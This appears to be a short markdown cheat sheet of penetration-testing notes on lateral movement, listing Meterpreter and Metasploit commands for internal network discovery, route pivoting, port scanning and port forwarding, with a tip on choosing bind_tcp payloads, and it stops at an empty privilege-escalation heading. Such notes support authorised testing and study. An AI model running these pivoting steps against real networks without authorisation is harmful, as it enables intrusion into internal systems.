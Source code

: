 ## Lateral Movement
* `meterpreter > ipconfig` - not the IP addresses the target has. Focus on the IP different than the external IP
* `meterpreter > run arp_scanner -r <internal-IP>/<subnet-mask>'
* `meterpreter > run autoroute -s <internal-IP>/<subnet-mask>`
* `meterpreter > background`
* `msf6 > use auxiliary/scanner/portscan/tcp`
* `msf6 auxiliary(scanner/portscan/tcp) > set rhost <target>`

#### Port forward
* `use auxiliary/scanner/portscan/tcp` - portscan (after running autoroute)
* `meterpreter> portfwd add -l <local_port> -p <target_port> -r <target_IP>`
* `meterpreter> portfwd list` - check port forwarding list
* in linux host, run `nmap <local_port>`
##### Notes
* when route is activated and exploiting other hosts through msf pivoting, `reverse_tcp` doesn't work
  * use `bind_tcp` payloads 


## Privilege Escalation
